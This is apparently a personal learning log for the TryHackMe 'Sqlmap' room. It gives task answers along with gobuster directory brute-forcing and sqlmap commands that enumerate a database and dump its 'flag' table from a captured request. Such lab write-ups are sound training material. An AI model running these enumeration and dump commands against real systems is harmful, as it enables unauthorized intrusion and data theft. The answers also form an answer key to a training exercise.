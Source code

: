 #	Day 21

#### 03-02-2022

# TryHackMe Rank  40131


### [TryHackMe Sqlmap](https://tryhackme.com/room/sqlmap)



Task 3


Q 1 . What is the name of the interesting directory ?

	gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

	- answer blood

Q 2. Who is the current db user?

	- Capture the request(burp) and store in txt file(sqlmap.txt)

	- sqlmap -r sqlmap.txt
	- enter

	- sqlmap -r sqlmap.txt --current-db


Q 3 . What is the final flag?

	- sqlmap -r sqlmap.txt --tables

 	- sqlmap -r sqlmap.txt -T flag --columns
 		- T is used for select the table
 		- flag is table name

 	- sqlmap -r sqlmap.txt -T flag --dump
